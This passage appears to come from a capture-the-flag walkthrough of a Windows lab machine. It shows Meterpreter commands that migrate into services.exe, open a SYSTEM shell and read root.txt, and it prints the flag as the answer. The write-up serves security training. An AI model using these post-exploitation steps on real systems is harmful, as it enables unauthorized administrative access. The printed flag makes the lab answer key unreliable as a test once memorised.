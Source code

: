 Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do).

Ensure that you migrate to a process with correct permissions (the above question's answer). The safest process to pick is the `services.exe` process. First, use the `ps` command to view processes and find the PID of the `services.exe` process. Migrate to this process using the command `migrate PID-OF-PROCESS`

```
--SNIP--
 668   580   services.exe    x64   0        NT AUTHORITY\SYSTEM      C:\Windows\System32\services.exe
--SNIP--
```

`migrate 668`

```
meterpreter > migrate 668
[*] Migrating from 2984 to 668...
[*] Migration completed successfully.
meterpreter >

```

```
meterpreter > shell
Process 564 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

```
C:\Windows\System32\config>type root.txt
type root.txt
dff0f748678f280250f25a45b8046b4a
```

> Read the root.txt file located at C:\Windows\System32\config

`dff0f748678f280250f25a45b8046b4a`